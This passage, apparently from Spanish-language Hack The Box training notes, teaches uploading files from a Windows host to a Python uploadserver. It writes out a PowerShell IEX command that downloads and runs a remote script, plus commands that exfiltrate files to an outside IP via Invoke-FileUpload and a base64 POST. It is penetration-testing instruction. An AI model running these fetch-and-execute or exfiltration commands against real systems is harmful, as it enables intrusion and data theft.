 Para nuestro servidor web, podemos usar **uploadserver**, un módulo extendido de **Python HTTP.server** que incluye una página para subir archivos. A continuación, lo instalamos y arrancamos el servidor web.

### Instalar un Servidor Web Configurado para Subidas

```bash
sherlock28@htb[/htb]$ pip3 install uploadserver
```

```plaintext
Collecting upload server
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

Luego, iniciamos el servidor:

```bash
sherlock28@htb[/htb]$ python3 -m uploadserver
```

```plaintext
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Script de PowerShell para Subir un Archivo al Servidor de Subida en Python

Usamos el script **PSUpload.ps1** para realizar la operación de subida de archivos. Este script acepta dos parámetros: `-File`, para especificar la ruta del archivo, y `-Uri`, para la URL del servidor donde subiremos el archivo.

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

```plaintext
[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

### Subida Web con Base64 en PowerShell

Otra forma de utilizar PowerShell y archivos codificados en base64 para subir archivos es mediante **Invoke-WebRequest** o **Invoke-RestMethod** junto con **Netcat**. Utilizamos Netcat para escuchar en un puerto especificado y enviar el archivo como una solicitud POST.

Codificamos el archivo en base64 y lo enviamos:

```powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
